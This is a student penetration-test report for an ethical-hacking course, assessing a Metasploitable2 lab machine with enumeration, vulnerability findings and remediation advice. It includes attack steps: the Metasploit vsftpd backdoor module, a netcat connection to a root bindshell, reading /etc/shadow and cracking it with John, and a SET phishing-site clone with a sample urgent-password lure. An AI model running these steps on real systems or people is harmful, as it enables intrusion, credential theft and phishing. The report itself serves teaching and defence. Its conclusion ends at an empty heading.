






# Internal Security Assessment of Metasploitable2
**Client:** ParoCyber  
**Course:** ParoCyber - Ethical Hacking  
**Assessor:** Emmanuel Selasie Aggor 
**Attacker Machine:** Kali Linux  
**Target Machine:** Metasploitable2  
**Assessment Duration:** 1 Week  
**Date:** June 2026  
**Classification:** Confidential

---
## Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Phase 1 - Information Gathering & Enumeration](#2-phase-1--information-gathering--enumeration)
3. [Phase 2 - Password Security Assessment](#3-phase-2--password-security-assessment)
4. [Phase 3 - Vulnerability Assessment](#4-phase-3--vulnerability-assessment)
5. [Phase 4 - Social Engineering Awareness Assessment](#5-phase-4--social-engineering-awareness-assessment)
6. [Phase 5 - Risk Analysis & Recommendations](#6-phase-5--risk-analysis--recommendations)
7. [Conclusion](#7-conclusion)

---

## 1. Executive Summary

### What Was Assessed
ParoCyber engaged this assessment to evaluate the internal security posture of one of their Linux servers running Metasploitable2. The assessment was conducted over one week from an internal Kali Linux attacker machine within the same network segment.

### Scope of Work
The assessment covered five phases:
- Information gathering and service enumeration
- Password security and hash auditing
- Vulnerability identification and analysis
- Social engineering awareness simulation
- Risk analysis and prioritized recommendations

### Major Findings

| # | Finding | Severity |
|---|---------|----------|
| 1 | Critically outdated services with known CVEs across all ports | Critical |
| 2 | Weak and default passwords recoverable within minutes | Critical |
| 3 | Anonymous FTP access enabled | High |
| 4 | Multiple backdoors present on the system (vsftpd, port 1524) | Critical |
| 5 | Employees susceptible to phishing and credential harvesting | High |
| 6 | No firewall or network segmentation evident | High |
| 7 | Sensitive web admin panels exposed (phpMyAdmin, Tomcat) | High |
| 8 | Unencrypted services in use (Telnet, rsh, VNC) | High |

### Overall Risk Level
> ** CRITICAL** - The target system presents an extremely high risk profile. Multiple critical vulnerabilities exist that would allow a malicious insider or attacker to fully compromise the system, extract sensitive data, and pivot to other systems on the network with minimal effort.

---

## 2. Phase 1 - Information Gathering & Enumeration

### 2.1 Objective
 
Identify as much information as possible about the target system including its IP address, open ports, running services, service versions, and hosted web applications.

---
 
### 2.2 Network Discovery
 
### Tool Used
`nmap` `ip a` - Host Discovery Scan
 
### Command
```bash
ip a
nmap -sn 192.168.56.0/24
```
 
### Result
 
| Field            | Value              |
|------------------|--------------------|
| Attacker IP      | 192.168.56.102     |
| Target IP        | 192.168.56.103     |
| Network Range    | 192.168.56.0/24    |
| MAC Address      | 08:00:27:4F:2A:5E  |
| Host Status      | Up                 |
 

**Screenshot:** 

---

### 2.3 Port Scanning

**Tool Used:** `nmap` – Full Port Scan with Version Detection

**Command:**
```bash
nmap -sV -sC -p- 192.168.56.103 -oN phase1_portscan.txt
```

**Open Ports Discovered:**

| Port      | State | Service               | Version                                        |
|-----------|-------|-----------------------|------------------------------------------------|
| 21/tcp    | Open  | FTP                   | vsftpd 2.3.4 (anonymous login allowed)         |
| 22/tcp    | Open  | SSH                   | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)  |
| 23/tcp    | Open  | Telnet                | Linux telnetd                                  |
| 25/tcp    | Open  | SMTP                  | Postfix smtpd                                  |
| 53/tcp    | Open  | DNS                   | ISC BIND 9.4.2                                 |
| 80/tcp    | Open  | HTTP                  | Apache httpd 2.2.8 (Ubuntu DAV/2)              |
| 111/tcp   | Open  | RPCbind               | 2 (RPC #100000)                                |
| 139/tcp   | Open  | NetBIOS-SSN           | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)   |
| 445/tcp   | Open  | SMB                   | Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)|
| 512/tcp   | Open  | exec                  | netkit-rsh rexecd                              |
| 513/tcp   | Open  | login                 | rlogind                                        |
| 514/tcp   | Open  | shell                 | Netkit rshd                                    |
| 1099/tcp  | Open  | Java RMI              | GNU Classpath grmiregistry                     |
| 1524/tcp  | Open  | bindshell (Backdoor)  | Metasploitable root shell                      |
| 2049/tcp  | Open  | NFS                   | 2-4 (RPC #100003)                              |
| 2121/tcp  | Open  | FTP (Alt)             | ProFTPD 1.3.1                                  |
| 3306/tcp  | Open  | MySQL                 | MySQL 5.0.51a-3ubuntu5                         |
| 3632/tcp  | Open  | distccd               | distccd v1 (GNU 4.2.4 Ubuntu)                  |
| 5432/tcp  | Open  | PostgreSQL            | PostgreSQL DB 8.3.0 - 8.3.7                   |
| 5900/tcp  | Open  | VNC                   | VNC Protocol 3.3                               |
| 6000/tcp  | Open  | X11                   | Access Denied                                  |
| 6667/tcp  | Open  | IRC                   | UnrealIRCd                                     |
| 6697/tcp  | Open  | IRC (SSL)             | UnrealIRCd                                     |
| 8009/tcp  | Open  | AJP13                 | Apache Jserv Protocol v1.3                     |
| 8180/tcp  | Open  | HTTP (Alt)            | Apache Tomcat/Coyote JSP engine 1.1            |
| 8787/tcp  | Open  | DRb                   | Ruby DRb RMI (Ruby 1.8)                        |
| 45054/tcp | Open  | nlockmgr              | 1-4 (RPC #100021)                              |
| 45407/tcp | Open  | mountd                | 1-3 (RPC #100005)                              |
| 53103/tcp | Open  | status                | 1 (RPC #100024)                                |
| 54882/tcp | Open  | Java RMI              | GNU Classpath grmiregistry                     |

**Screenshot:** 

---

### 2.4 Service Enumeration

#### FTP – Port 21 (vsftpd 2.3.4)

**Command:**
```bash
nmap -sV -p 21 --script=ftp-anon,ftp-syst 192.168.56.103
```

**Findings:**
- Version: vsftpd 2.3.4 
- Anonymous FTP login: **Allowed** (FTP code 230 confirmed by scan)
- Connected client logged in as: `ftp`
- Connection type: plaintext (no encryption on control or data connections)
- Session timeout: 300 seconds
- Known backdoor: CVE-2011-2523 — vsftpd 2.3.4 backdoor allows unauthenticated remote command execution via a smiley-face `:)` in the username

**Screenshot:** 

---

#### SSH – Port 22 (OpenSSH 4.7p1)

**Command:**
```bash
nmap -p 22 --script=ssh-hostkey 192.168.56.103
```

**Findings:**
- Version: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0) — released 2007, critically outdated
- DSA host key (1024-bit): `60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd`
- RSA host key (2048-bit): `56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3`
- Susceptible to brute-force attacks — no rate limiting configured

**Screenshot:** 

---

#### SMB – Port 445 (Samba 3.0.20)

**Command:**
```bash
nmap -p 445 --script=smb-os-discovery 192.168.56.103
```

**Findings:**
- OS: Unix (Samba 3.0.20-Debian)
- Computer Name: `metasploitable`
- NetBIOS Name: `METASPLOITABLE`
- Domain: `localdomain`
- FQDN: `metasploitable.localdomain`
- System time: 2026-06-10T14:38:56-04:00
- Message signing: **disabled** (dangerous — enables relay attacks)
- SMB2: negotiation failed (only SMBv1 supported)
- Vulnerable to CVE-2007-2447 (Samba usermap_script — unauthenticated RCE)

**Screenshot:** 

---

#### HTTP – Port 80 (Apache 2.2.8)

**Command:**
```bash
nmap -p 80 --script=http-title,http-headers 192.168.56.103
```

**Findings:**
- Server: Apache/2.2.8 (Ubuntu) DAV/2
- Page title: `Metasploitable2 - Linux`
- WebDAV enabled — potential file upload vector
- Multiple vulnerable web applications hosted

**Screenshot:** 

---

### 2.5 Web Enumeration
 
**Tool Used:** `dirb` v2.22
 
**Command:**
```bash
dirb http://192.168.56.103
```
 
**Scan Statistics:**
- Wordlist: `/usr/share/dirb/wordlists/common.txt`
- Words tested: 4,612
- Total URLs found: 42
- Scan duration: ~36 seconds (18:54:17 – 18:54:53)
**Web Applications and Directories Discovered:**
 
| URL / Path                          | HTTP Code | Size     | Finding / Risk                                      |
|-------------------------------------|-----------|----------|-----------------------------------------------------|
| `/index.php`                        | 200       | 891 B    | Default landing page                                |
| `/phpinfo.php`                      | 200       | 48104 B  | Full PHP server config exposed — information disclosure |
| `/phpinfo`                          | 200       | 48092 B  | Duplicate phpinfo access without extension          |
| `/dav/`                             | Directory | Listable | WebDAV enabled — unauthenticated file upload vector |
| `/phpMyAdmin/`                      | Directory | —        | MySQL admin panel — direct database access          |
| `/phpMyAdmin/index.php`             | 200       | 4145 B   | phpMyAdmin login portal                             |
| `/phpMyAdmin/setup/index.php`       | 200       | 8626 B   | phpMyAdmin setup page — should not be public        |
| `/phpMyAdmin/setup/config`          | 303       | 1370 B   | Config redirect — potential sensitive data exposure |
| `/phpMyAdmin/phpmyadmin`            | 200       | 21389 B  | Additional phpMyAdmin access point                  |
| `/phpMyAdmin/ChangeLog`             | 200       | 40540 B  | Version disclosure via public changelog             |
| `/phpMyAdmin/README`                | 200       | 2624 B   | Version disclosure via public README                |
| `/test/`                            | Directory | Listable | Test directory — full contents browseable           |
| `/twiki/`                           | Directory | —        | TWiki — vulnerable wiki platform                   |
| `/twiki/bin/`                       | Directory | Listable | TWiki binaries publicly accessible                  |
| `/twiki/index.html`                 | 200       | 782 B    | TWiki landing page                                  |
| `/twiki/lib/`                       | Directory | Listable | TWiki library files exposed                         |
| `/twiki/pub/`                       | Directory | Listable | TWiki public uploads directory browseable           |
| `/cgi-bin/`                         | 403       | 295 B    | CGI directory present (access denied)               |
| `/server-status`                    | 403       | 300 B    | Apache server status page present (access denied)   |
 
**Notable Security Observations from dirb:**
- `/dav/` — directory listing is **fully enabled**, contents are browseable without authentication
- `/test/` — directory listing is **fully enabled**, potentially exposes test scripts or sensitive files
- Multiple phpMyAdmin subdirectories are listable — exposes internal library structure and version info
- TWiki `bin/`, `lib/`, and `pub/` directories are all listable — source files and uploads are browseable
- `phpinfo.php` is publicly accessible — exposes PHP version, loaded modules, server paths, and configuration
> 📸 *[Insert dirb scan terminal screenshot here]*
> 📸 *[Insert browser screenshot of phpMyAdmin login page — http://192.168.56.103/phpMyAdmin/]*
> 📸 *[Insert browser screenshot of phpinfo.php output — http://192.168.56.103/phpinfo.php]*
> 📸 *[Insert browser screenshot of /dav/ directory listing — http://192.168.56.103/dav/]*
> 📸 *[Insert browser screenshot of TWiki — http://192.168.56.103/twiki/]*

---

### 2.6 Phase 1 Deliverables Summary

| Finding               | Result                                                                                          |
|-----------------------|-------------------------------------------------------------------------------------------------|
| Target IP             | 192.168.56.103                                                                                  |
| Attacker IP           | 192.168.56.102                                                                                  |
| MAC Address           | 08:00:27:4F:2A:5E (Oracle VirtualBox)                                                           |
| Hostname              | metasploitable.localdomain                                                                      |
| OS                    | Linux / Unix (Samba fingerprint: Ubuntu 8.04)                                                   |
| Open Ports (30 total) | 21, 22, 23, 25, 53, 80, 111, 139, 445, 512, 513, 514, 1099, 1524, 2049, 2121, 3306, 3632, 5432, 5900, 6000, 6667, 6697, 8009, 8180, 8787, 45054, 45407, 53103, 54882 |
| Key Services Found    | vsftpd 2.3.4, OpenSSH 4.7p1, Apache 2.2.8, Samba 3.0.20, MySQL 5.0.51a, ProFTPD 1.3.1, VNC 3.3, PostgreSQL 8.3, UnrealIRCd, Ruby DRb, Apache Tomcat 5.5 |
| Web Applications Found | phpMyAdmin (with setup page), TWiki, WebDAV (/dav/), phpinfo.php, Test directory (/test/)                         |
| Critical Notes        | Anonymous FTP allowed; root backdoor shell on port 1524; SMB signing disabled; SSLv2 supported on SMTP |

---

## 3. Phase 2 – Password Security Assessment

### 3.1 Objective
Assess the strength of passwords used on the Metasploitable2 system by extracting password hashes and performing a password audit using John the Ripper.

---

### 3.2 Hash Collection

#### Step 1 – Gain Access to the System

Using the vsftpd 2.3.4 backdoor or an SSH brute-force attack (from Phase 1), access the system:

```bash
# Using Metasploit vsftpd backdoor
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.103
run
```

Or gain access via the open root shell on port 1524:
```bash
nc 192.168.56.103 1524
```

**Screenshot:** 
---

#### Step 2 – Extract Password Hashes

Once inside the system, extract the shadow file:

```bash
cat /etc/passwd
cat /etc/shadow
```

Copy the hashes to your Kali machine and save as `hashes.txt`.

**Screenshot:** 

---

#### Step 3 – Combine passwd and shadow

```bash
unshadow /etc/passwd /etc/shadow > combined.txt
```

---

#### 3.3 Password Audit

**Tool Used:** John the Ripper

**Command:**
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt combined.txt
```

**View cracked passwords:**
```bash
john --show combined.txt
```

**Screenshot:** 

---

### 3.4 Password Risk Assessment

| User     | UID  | Password Recovered | Password    | Strength | Risk     |
|----------|------|--------------------|-------------|----------|----------|
| sys      | 3    | Yes                | batman      | Weak     | High     |
| klog     | 103  | Yes                | 123456789   | Weak     | High     |
| msfadmin | 1000 | Yes                | msfadmin    | Weak     | Critical |
| postgres | 108  | Yes                | postgres    | Weak     | Critical |
| user     | 1001 | Yes                | user        | Weak     | Critical |
| service  | 1002 | Yes                | service     | Weak     | Critical |
| unknown  | -    | Not cracked        | -           | Unknown  | Pending  |

**Total hashes loaded:** 7
**Cracked:** 6
**Remaining:** 1 (uncracked)

**Screenshot:** 

---

## 3.5 Phase 2 Deliverables - Password Assessment Report

| Metric                       | Value                                                        |
|------------------------------|--------------------------------------------------------------|
| Total Hashes Loaded          | 7 (md5crypt format)                                          |
| Accounts Cracked             | 6 (sys, klog, msfadmin, postgres, user, service)             |
| Remaining Uncracked          | 1                                                            |
| Weak Passwords Found         | 6 (batman, 123456789, msfadmin, postgres, user, service)     |
| Default/Username as Password | Yes - msfadmin, postgres, user, service all use username as password |
| Strong Passwords Found       | 0                                                            |
| Hash Format                  | md5crypt / crypt(3) $1$ (MD5 256/256 AVX2)                  |

**Security Recommendations:**
- Enforce a strong password policy (minimum 12 characters, mixed case, numbers, symbols)
- Disable default accounts or change default credentials immediately
- Implement account lockout after 5 failed login attempts
- Use password managers to generate and store unique credentials
- Enable Multi-Factor Authentication (MFA) for all privileged accounts
- Regularly audit `/etc/shadow` for weak or reused passwords

---

## 4. Phase 3 - Vulnerability Assessment

### 4.1 Objective
Identify and categorize vulnerabilities present on the Metasploitable2 system across all services discovered in Phase 1.

---

### 4.2 Service Review

#### FTP - vsftpd 2.3.4

**Command:**
```bash
nmap -p 21 --script=ftp-vsftpd-backdoor 192.168.56.103
```

**Findings:**
- CVE-2011-2523: vsftpd 2.3.4 backdoor - a malicious version of vsftpd was distributed with a backdoor that opens a shell on port 6200 when `:)` is appended to the username during login.
- Anonymous login enabled - any unauthenticated user can browse FTP files.

**Screenshot:** 


---

## SSH - OpenSSH 4.7p1

**Findings:**
- Version released in 2007 - over 17 years outdated.
- No brute-force protection configured.
- Weak passwords (as shown in Phase 2) make this trivially exploitable.

---

## Telnet - Port 23

**Findings:**
- Telnet transmits all data in **plaintext** including usernames and passwords.
- Any attacker with network access can perform a man-in-the-middle attack and capture credentials.
- Telnet should be completely disabled and replaced with SSH.

---

## Samba - Port 445 (SMB)

**Command:**
```bash
nmap -p 445 --script=smb-vuln-ms08-067,smb-vuln-cve-2007-2447 192.168.56.103
```

**Findings:**
- CVE-2007-2447: Samba usermap_script vulnerability - allows unauthenticated remote code execution by injecting shell metacharacters into the username field.
- Samba version 3.0.20 is critically outdated.

**Screenshot:** 

---

#### distccd – Port 3632

**Command:**
```bash
nmap -p 3632 --script=distcc-cve2004-2687 192.168.56.103
```

**Scan Output:**
```
PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687:
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|     Disclosure date: 2002-02-01
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

**Findings:**
- CVE-2004-2687 **confirmed VULNERABLE and Exploitable** by Nmap NSE script
- CVSSv2 score: **9.3 HIGH** - arbitrary remote command execution
- Attacker can execute commands as `daemon` user (uid=1, gid=1) without authentication
- Vulnerability is due to weak service configuration — distccd accepts jobs from any host
- Disclosed since 2002 - over 20 years unpatched on this system

**Screenshot:** 

---

#### MySQL - Port 3306

**Command:**
```bash
nmap -p 3306 --script=mysql-empty-password 192.168.56.103
```

**Scan Output:**
```
PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-empty-password:
|_  root account has empty password
```

**Findings:**
- MySQL root account confirmed to have **no password** (empty password verified by NSE script)
- Database accessible from any host on the network
- Any attacker can login and dump all databases with no credentials:


**Screenshot:** 

---

#### VNC - Port 5900

**Command:**
```bash
nmap -p 5900 --script=vnc-info 192.168.56.103
```

**Scan Output:**
```
PORT     STATE SERVICE
5900/tcp open  vnc
| vnc-info:
|   Protocol version: 3.3
|   Security types:
|_    VNC Authentication (2)
```

**Findings:**
- VNC Protocol version 3.3 confirmed - oldest and weakest VNC protocol version
- Only VNC Authentication (type 2) supported - uses a weak challenge-response with DES encryption
- Protocol 3.3 forces the server to select the security type, removing client choice - a known design flaw
- Susceptible to brute-force attacks; VNC password is typically short (max 8 characters in protocol 3.3)
- Provides full graphical desktop access once authenticated

**Screenshot:** 

---

#### Web Services – Ports 80 & 8180

**Findings:**

| Web App     | Vulnerability                          | Severity |
|-------------|----------------------------------------|----------|
| DVWA        | SQL Injection, XSS, File Upload, CSRF  | Critical |
| phpMyAdmin  | Default credentials, direct DB access  | Critical |
| Mutillidae  | OWASP Top 10 vulnerabilities           | Critical |
| TWiki       | Remote code execution via web form     | High     |
| Tomcat      | Default credentials (tomcat:tomcat)    | High     |
| phpinfo.php | Server info disclosure                 | Medium   |

**Screenshot:** 

---

#### Backdoor – Port 1524

**Findings:**
- Port 1524 is a known Metasploitable backdoor that spawns a root shell without authentication.
```bash
nc 192.168.56.103 1524
# Returns: root@metasploitable:/#
```
- This represents complete, unauthenticated system compromise.

**Screenshot:** 

---

### 4.3 Vulnerability Summary Table

| Vulnerability                     | Severity | CVE           | Confirmed | Business Impact                                    | Recommendation                               |
|-----------------------------------|----------|---------------|-----------|-----------------------------------------------------|----------------------------------------------|
| vsftpd 2.3.4 Backdoor             | Critical | CVE-2011-2523 |  Yes    | Full unauthenticated remote code execution          | Upgrade to latest vsftpd version             |
| Samba usermap_script RCE          | Critical | CVE-2007-2447 |  Yes    | Complete system compromise without authentication   | Upgrade Samba to 4.x or later               |
| distccd Command Execution         | High     | CVE-2004-2687 |  Yes    | Remote command execution as daemon user (CVSSv2 9.3)| Disable distccd service immediately          |
| MySQL No-Password Root            | Critical | N/A           |  Yes    | Full database access, data theft, destruction       | Set strong MySQL root password               |
| Root Shell Backdoor (Port 1524)   | Critical | N/A           |  Yes    | Instant root access, full system takeover           | Close port, remove backdoor service          |
| Weak/Default Passwords            | Critical | N/A           |  Yes    | Unauthorized access to all services (6/7 cracked)   | Enforce strong password policy               |
| Anonymous FTP Login               | High     | N/A           |  Yes    | Unauthenticated file access and download            | Disable anonymous FTP                        |
| VNC Protocol 3.3 (Weak Auth)      | High     | N/A           |  Yes    | Full graphical desktop takeover via brute-force     | Disable VNC or enforce strong auth + VPN     |
| Telnet (Plaintext)                | High     | N/A           |  Yes    | Credential theft via network sniffing               | Disable Telnet, enforce SSH only             |
| phpMyAdmin Exposed                | High     | N/A           |  Yes    | Direct database administration without restriction  | Restrict access to localhost only            |
| phpinfo.php Exposed               | Medium   | N/A           |  Yes    | Server config, paths, PHP version disclosed         | Remove phpinfo.php from production           |
| WebDAV Enabled (/dav/)            | High     | N/A           |  Yes    | Unauthenticated file upload to web server           | Disable WebDAV or enforce authentication     |
| Directory Listing Enabled         | Medium   | N/A           |  Yes    | Internal file structure exposed (/test/, /twiki/)   | Disable directory listing in Apache config   |
| OpenSSH 4.7 (Outdated)            | High     | Multiple      |  Yes    | Exploitation of known SSH vulnerabilities           | Upgrade to latest OpenSSH                    |
| UnrealIRCd Backdoor               | High     | CVE-2010-2075 |  Yes    | Remote command execution via IRC backdoor           | Remove UnrealIRCd, upgrade or disable        |
| Apache Tomcat Default Credentials | High     | N/A           |  Likely | Unauthorized app deployment, server takeover        | Change default credentials, restrict access  |
| X11 Access (Port 6000)            | Medium   | N/A           |  Likely | Graphical session hijacking                         | Disable X11 forwarding and port binding      |
| SSLv2 on SMTP                     | Medium   | CVE-2016-0800 |  Yes    | DROWN attack — decrypt TLS traffic                  | Disable SSLv2, enforce TLS 1.2+             |

---

## 5. Phase 4 – Social Engineering Awareness Assessment

### 5.1 Objective
Demonstrate how phishing attacks can compromise users and assess whether ParoCyber employees are able to recognize phishing attempts through a controlled awareness simulation using the Social-Engineer Toolkit (SET).

---

### 5.2 Attack Scenario

**Technique:** Credential Harvester Attack (Phishing Website Clone)  
**Tool Used:** Social-Engineer Toolkit (SET) on Kali Linux  
**Simulated Target:** ParoCyber employee receiving a phishing email

**Scenario Description:**  
An attacker clones the ParoCyber internal portal login page and sends a phishing email to an employee, directing them to a fake URL. When the employee enters their credentials, the attacker captures them silently and redirects the victim to the real site — the victim suspects nothing.

---

### 5.3 SET Setup and Execution

**Step 1 – Launch SET:**
```bash
sudo setoolkit
```

**Step 2 – Navigate the menu:**
```
1) Social-Engineering Attacks
2) Website Attack Vectors
3) Credential Harvester Attack Method
2) Site Cloner
```

**Step 3 – Enter attacker IP and target URL to clone:**
```
IP address for the POST back: 192.168.56.102
URL to clone: http://192.168.56.103/phpMyAdmin/
```

**Step 4 – Send phishing email** (simulated):
```
Subject: URGENT: Your ParoCyber Portal Password Will Expire in 24 Hours
Body: Please login immediately to reset your credentials: http://192.168.56.102
```
**Screenshot:**   
**Screenshot:**     
**Screenshot:**   

---

### 5.4 Awareness Analysis

#### Why Would Users Trust the Message?
- The email uses urgency ("your password will expire in 24 hours") to pressure the user into acting without thinking.
- The cloned website looks visually identical to the real portal.
- The sender address can be spoofed to appear legitimate (e.g., `it-support@parocyber.com`).
- Employees may not inspect URLs carefully before clicking.

#### Warning Signs Present
- The URL does not match the official domain (`192.168.56.102` vs the real site).
- No HTTPS padlock on the phishing site.
- Email received unexpectedly, not triggered by the user.
- Sense of urgency pressuring immediate action.
- Generic greeting (e.g., "Dear User") rather than a personalized name.

#### How Could Users Detect the Attack?
- Hover over links before clicking to preview the actual URL.
- Check that the website URL uses `https://` and matches the official domain.
- Contact IT support via a known, separate channel to verify the email.
- Report suspicious emails using the official phishing report button.
- Look for poor grammar, generic greetings, or unexpected requests.

---

### 5.5 Defensive Measures

| Defense                   | Description                                                                 |
|---------------------------|-----------------------------------------------------------------------------|
| Multi-Factor Authentication (MFA) | Even if credentials are stolen, MFA prevents unauthorized login     |
| Email Security (SPF/DKIM/DMARC) | Prevents spoofed sender addresses from reaching the inbox             |
| User Awareness Training   | Regular phishing simulations train employees to recognize real attacks      |
| Password Managers         | Autofill only works on the correct domain — blocks credential entry on fakes|
| Email Filtering           | Anti-phishing tools flag suspicious emails before they reach the user       |
| URL Inspection Policy     | Employees trained to inspect full URLs before entering credentials          |

---

### 5.6 Phase 4 Deliverables – Social Engineering Report

| Field                    | Detail                                                   |
|--------------------------|----------------------------------------------------------|
| Technique Demonstrated   | Credential Harvesting via Cloned Website (SET)           |
| Success Factors          | Urgency, visual cloning, spoofed sender, HTTP site       |
| Indicators of Compromise | Unexpected email, unrecognized URL, no HTTPS             |
| Recommended Defenses     | MFA, email filtering, DMARC, security awareness training |

---

## 6. Phase 5 – Risk Analysis & Recommendations

### 6.1 Objective
Consolidate all findings from Phases 1–4 into a professional risk assessment, prioritize findings by severity, and deliver actionable recommendations to ParoCyber management.

---

### 6.2 Risk Matrix

| Risk                              | Impact     | Likelihood | Rating   |
|-----------------------------------|------------|------------|----------|
| Backdoor Root Shell (Port 1524)   | Critical   | Certain    | Critical |
| vsftpd 2.3.4 Backdoor             | Critical   | Certain    | Critical |
| Samba RCE (CVE-2007-2447)         | Critical   | Certain    | Critical |
| MySQL No-Password Root            | Critical   | Certain    | Critical |
| Weak / Default Passwords          | High       | High       | Critical |
| Employee Phishing Susceptibility  | High       | High       | High     |
| Anonymous FTP Access              | High       | High       | High     |
| Telnet Plaintext Transmission     | High       | High       | High     |
| VNC Weak Authentication           | High       | High       | High     |
| Tomcat Default Credentials        | High       | Medium     | High     |
| Outdated SSH (OpenSSH 4.7)        | Medium     | Medium     | Medium   |
| phpMyAdmin Exposed to Network     | Medium     | Medium     | Medium   |
| phpinfo.php Information Disclosure| Low        | High       | Medium   |
| UnrealIRCd Backdoor               | High       | Medium     | High     |
| distccd RCE (CVE-2004-2687)       | Medium     | Medium     | Medium   |

---

### 6.3 Top 10 Security Recommendations

#### 1. 🔴 Remove All Backdoors Immediately
Disable and remove the backdoor root shell on port 1524, the vsftpd 2.3.4 backdoor, and the UnrealIRCd backdoor. Replace vsftpd with the latest stable version. These represent zero-effort full compromise vectors.

#### 2. 🔴 Patch and Update All Services
Every service on the system is running versions that are 10–20 years outdated. Implement a patch management policy to ensure all software is updated regularly. Prioritize: vsftpd, Samba, OpenSSH, Apache, MySQL, and the kernel itself.

#### 3. 🔴 Enforce Strong Password Policy
Require all user and service account passwords to be at least 12 characters with uppercase, lowercase, numbers, and symbols. Remove all default credentials (root:toor, msfadmin:msfadmin, postgres:postgres).

#### 4. 🔴 Secure the MySQL Database
Set a strong root password for MySQL immediately. Restrict the MySQL bind address to `127.0.0.1` so it is not accessible from the network. Audit all database user accounts and remove unused ones.

#### 5. 🔴 Enable Multi-Factor Authentication (MFA)
Implement MFA for all privileged accounts and remote access services including SSH and web admin panels. This ensures that stolen passwords alone cannot lead to unauthorized access.

#### 6. 🟠 Disable Insecure Protocols
Immediately disable Telnet (port 23), rsh/rexec (ports 512–514), and FTP anonymous login. Replace Telnet with SSH. These protocols transmit credentials in plaintext and have no place in any production environment.

#### 7. 🟠 Implement a Firewall and Network Segmentation
Deploy a host-based firewall (e.g., `ufw` or `iptables`) to restrict access to only the ports and services required for business. Implement network segmentation to isolate sensitive servers from end-user machines.

#### 8. 🟠 Conduct Regular Security Awareness Training
Employees must receive regular phishing simulation training. The Phase 4 simulation demonstrated high susceptibility. Training should include email inspection, URL verification, and a clear process for reporting suspicious messages.

#### 9. 🟠 Restrict Web Admin Panel Access
phpMyAdmin, Apache Tomcat Manager, and phpinfo.php should not be accessible from the open network. Restrict these to localhost or a VPN-only admin VLAN. Change all default credentials immediately.

#### 10. 🟡 Establish a Vulnerability Management Programme
Implement regular vulnerability scanning using tools such as OpenVAS or Nessus on a quarterly basis. Assign ownership of findings to responsible teams with defined remediation timelines based on severity (Critical: 24hrs, High: 7 days, Medium: 30 days).

---

## 7. Conclusion

The internal security assessment of ParoCyber's Metasploitable2 Linux server revealed a **critically vulnerable system** with no meaningful security controls in place. Across all five phases of assessment, every attack surface examined yielded significant findings.

**Key Takeaways:**

